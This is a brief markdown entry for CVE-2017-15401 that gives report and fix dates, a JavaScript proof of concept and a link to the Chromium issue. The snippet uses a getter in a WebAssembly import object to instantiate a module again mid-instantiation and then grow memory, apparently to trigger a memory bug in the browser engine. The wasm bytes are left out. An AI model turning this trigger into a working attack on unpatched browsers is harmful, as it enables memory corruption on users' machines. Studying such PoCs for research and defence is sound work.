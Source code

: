 # CVE-2017-15401

- Report: Sep 2017
- Fix: Oct 2017

## PoC

```javascript
// raw_wasm = ...
var mod = WebAssembly.Module(raw_wasm);
var ffi = {
  mod: {
    get imp() {
      wasm2 = WebAssembly.Instance(mod, {mod: {imp: function(){}}});
      spacer = new ArrayBuffer(0x10000);
      return function() {};
    }
  }
};
wasm = WebAssembly.Instance(mod, ffi);
wasm2.exports.memory.grow(1);
// wasm.exports.XXX
```

## Reference

- [Issue](https://crbug.com/766260)
